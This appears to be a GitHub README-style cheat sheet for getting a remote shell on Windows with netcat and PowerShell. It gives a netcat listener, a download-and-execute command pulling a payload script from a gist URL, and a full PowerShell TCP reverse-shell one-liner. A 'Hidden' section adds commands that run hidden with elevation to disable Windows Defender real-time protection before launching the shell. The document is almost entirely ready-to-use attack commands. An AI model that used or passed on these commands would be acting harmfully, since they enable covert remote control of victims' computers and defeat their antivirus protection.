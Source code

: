 # Using NetCat

## Server side (port 80)
- Use 80/87
```bash
nc -lp 80
```

## Client side
- Paste in powershell and change ip address and port number
```ps1
IEX(IWR https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.29.21 80
```

## Script
- Change the ip address in the "quotes" and the port (80)
```ps1
$client = New-Object System.Net.Sockets.TCPClient("192.168.29.21",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd) + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1

## Hidden
### Server side
```bash
nc -lp 80
```
### Client side

- Disable windows defender
```ps1
powershell -w hidden start powershell -A 'Set-MpPreference -DisableRea $true' -V runAs
```

- Load the script and listen on the ip and port numbers specified
```ps1
powershell -w hidden "IEX(IWR https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.29.21 80"
```

## From this video
https://www.youtube.com/watch?v=A2JNBpUotZM

## Original Script
https://github.com/davidbombal/hak5
